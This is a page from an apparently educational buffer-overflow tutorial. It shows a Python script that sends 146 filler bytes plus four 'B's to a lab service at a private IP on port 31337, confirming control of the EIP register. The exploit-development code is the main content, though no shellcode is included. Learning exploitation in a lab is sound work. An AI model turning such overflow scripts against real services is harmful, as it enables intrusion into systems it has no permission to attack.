 Since we know that we can own EIP at 146 bytes, let's give it a try:
```Python
#!/usr/bin/python

import socket,sys

buffer = "A"*146 + "B"*4 
RHOST = "192.168.0.227"
RPORT = 31337

try:
    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((RHOST,RPORT))
    s.send((buffer + "\r\n"))
    s.close()
    
except:
    print("Error connecting to server")
    sys.exit
```
![Overwrite EIP](overwriteEIP.png)  

As we can see, we filled the EIP with 4 Bs (42 is the hex value of B)

[<= Go Back to BOF Menu](BOFMain.md)

[<= Go Back to Main Menu](index.md)
